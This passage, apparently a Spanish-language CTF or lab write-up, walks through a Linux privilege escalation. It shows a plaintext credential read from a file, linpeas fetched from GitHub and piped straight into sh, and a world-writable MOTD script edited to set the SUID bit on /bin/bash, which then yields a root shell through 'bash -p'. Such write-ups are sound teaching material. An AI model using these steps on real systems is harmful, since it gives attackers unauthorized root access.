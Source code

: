 ```bash
bash-5.2$ cat .mipass 
maria:asientiendesmejor
Donde podre escribir
```

YA ESTAMOS COMO MARIA.

Usamos linpeas: 

```bash

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

```


```bash
Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                                                                          
/dev/mqueue                                                                                                                                                                               
/dev/shm
/etc/update-motd.d/00-header
/home/maria
/run/lock
/tmp
/tmp/head
/usr/bin/f1nd
/usr/lib/bash
/usr/lib/systemd/system/vsftpd.service
/var/lib/php/sessions
/var/tmp

```

Vemos /etc/update-motd.d/00-header ->**Un marco sencillo para generar dinámicamente el Mensaje del Día (motd).** **Marco y scripts para generar un Mensaje del Día generado dinámicamente**

Le modificamos y agregamos:
```bash

chmod +4777 /bin/bash

```

Nos volvemos a loggear via ssh.

```bash
-bash-5.2$ whoami
maria
-bash-5.2$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1446024 Mar 31  2024 /bin/bash
-bash-5.2$ bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**